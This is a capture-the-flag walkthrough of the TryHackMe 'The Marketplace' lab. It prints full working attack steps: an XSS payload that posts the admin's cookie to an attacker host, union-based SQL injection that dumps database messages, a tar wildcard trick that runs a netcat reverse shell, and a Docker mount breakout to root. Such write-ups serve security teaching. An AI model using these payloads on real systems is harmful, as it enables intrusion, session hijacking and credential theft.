# **TryHackMe: The Marketplace – Room Walkthrough**

This room covers a multi-stage web attack vector involving Cross-Site Scripting (XSS) for session hijacking, SQL Injection (SQLi) to dump database contents, a wildcards-based privilege escalation attack via `tar`, and a final breakout from a Docker container to capture the root flag.

## **1. Scanning & Service Enumeration**

I started the box with an aggressive `nmap` scan to see what services were active:

```
nmap -sV -T5 -p- -vv 10.48.143.140
```

**Open Ports:**

- **Port 22/tcp:** OpenSSH 7.6p1
- **Port 80/tcp:** nginx 1.19.2
- **Port 32768/tcp:** Node.js (Express middleware)

## **2. Exploiting Stored XSS & Stealing the Admin Cookie**

I navigated to the web server on Port 80 and created a standard user account (`hello:hello`) to map out the application's functionality.

The site allowed users to create item descriptions under the "New listing" tab. I tested the description input text field for a Stored Cross-Site Scripting (XSS) vulnerability using a standard `alert` box payload, and it triggered successfully.





Knowing the app included a "Report listing to admins" button, I crafted a JavaScript payload to capture and steal the active session cookies of any administrator auditing the reported items:

```html
<script>
fetch('http://192.168.145.196:8080', { method: 'POST', mode: 'no-cors', body: document.cookie });</script>
```





I launched a local netcat listener to intercept the incoming web request:

```
nc -lvnp 8080
```



After submitting the item listing and clicking the **Report** button, the administrative check routine evaluated the page. Within seconds, a connection callback reached my terminal handler containing a JSON Web Token (JWT) tracking token belonging to the site administrator.

I copied the stolen token value into my browser's developer options workspace, refreshed the index endpoint, and gained complete access to the backend `/admin` panel.



## **3. Exploiting Union-Based SQL Injection**



The administrative dashboard listed internal system users. Clicking on specific profiles updated the URL structure parameter layout: `admin?user=1`.

I appended a single quote mark (`'`) to test the input handling logic. The server broke loop and dropped a verbose database debug error banner onto the view interface:

`Error: ER_PARSE_ERROR: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version...`

This confirmed a vulnerable entry point to a **MySQL** backend environment. I mounted a manual UNION-based injection sequence to extract sensitive database rows:



### **Extracting the Database Name:**

```
http://10.48.143.140/admin?user=0 UNION SELECT 1,DATABASE(),3,4-- -
```

- **Result:** `marketplace`
    
    
    

### **Extracting Table Alignments:**

```
http://10.48.143.140/admin?user=0 UNION SELECT 1,(SELECT GROUP_CONCAT(TABLE_NAME SEPARATOR ',') FROM information_schema.TABLES WHERE TABLE_SCHEMA='marketplace'),3,4-- -
```

- **Result:** `items,messages,users`
    
    
    

### **Extracting Column Configurations (Targeting `messages`):**

```
http://10.48.143.140/admin?user=0 UNION SELECT 1,(SELECT GROUP_CONCAT(COLUMN_NAME SEPARATOR ',') FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='marketplace' and TABLE_NAME='messages'),3,4-- -
```

- **Result:** `id,user_from,user_to,message_content,is_read`
    
    
    

### **Dumping Cleartext Message Records:**

```
http://10.48.143.140/admin?user=0 UNION SELECT (SELECT GROUP_CONCAT(CONCAT(message_content) SEPARATOR ', ') FROM marketplace.messages),(SELECT GROUP_CONCAT(CONCAT(user_to) SEPARATOR ', ') FROM marketplace.messages),3,4-- -
```

Reviewing the dumped messages table content exposed valid SSH credentials for the user account **jake**:

- **SSH Password:** `@b_ENXkGY#####`
    
    
    

I logged in via SSH as `jake` and grabbed the first user flag:

```
cat user.txt
```



## **4. Horizontal Movement via `tar` Wildcards**

To pivot from `jake`, I checked the account's operational permissions layout:

```
sudo -l
```

The output showed that `jake` could execute a specific system utility script as user **michael** without providing a security password:

```
(michael) NOPASSWD: /opt/backups/backup.sh
```

I checked the contents of `/opt/backups/backup.sh` and found that it ran a `tar` compilation routine inside the workspace folder using an absolute wildcard syntax character loop (`*`):

```
tar cf /dev/null /dev/null *
```



According to **GTFOBins**, executing a `tar` utility statement combined with a naked glob wildcard pattern makes the system vulnerable to a command execution trick known as **Tar Wildcard Injection**. If an attacker creates local files whose literal names match supported `tar` parameter variables, the shell will expand the filenames into functional arguments on runtime.



I moved into the writable backup execution directory and staged a secondary reverse shell execution payload named `shell.sh`:

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.145.196 4444 >/tmp/f" > shell.sh
chmod +x shell.sh
```

Next, I created the two deceptive argument files within the same directory:

```
echo '' > "--checkpoint=1"
echo '' > "--checkpoint-action=exec=sh shell.sh"
```

I opened a netcat listener on port 4444 and triggered the elevated wrapper tool:

```
sudo -u michael /opt/backups/backup.sh
```



When `tar` processed the wildcard symbol, it read the filenames as configuration options (`--checkpoint=1` and `--checkpoint-action`), executing my shell script with **michael**'s permissions. I caught the callback connection and established a stable session context:

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
# whoami -> michael
```

## **5. Privilege Escalation via Docker Socket Breakout**

Once authenticated as `michael`, I checked my current token profile status:

```
id
# uid=1002(michael) gid=1002(michael) groups=1002(michael),999(docker)
```



The user context was actively tied to the system's **docker** security group. I listed the available images cached locally on the host container framework:

```
docker image ls
```

The query output dropped a highly useful minimal baseline footprint image candidate named **alpine** (`5.57MB`).

If an operator belongs to the local Docker group, they can leverage container initialization operations to mount the host system's root partition directory tree directly into a sandbox container instance. Because the container runtime operates under root permissions by default, breaking out or manipulating file mounts from inside the instance completely bypasses host file boundaries.

I ran a command to launch the Alpine image container, map the host filesystem root directory (`/`) into the workspace folder path `/mnt`, and launch an interactive shell:

```
docker run -v /:/mnt --rm -it alpine chroot /mnt /bin/sh
```

The boundary breakout succeeded immediately. I was dropped into a full, unconstrained root wrapper shell environment. I stepped straight into the system administrator's path and extracted the final root key target tracking marker file:

```
cat /root/root.txt
```



The room is completely solved! 

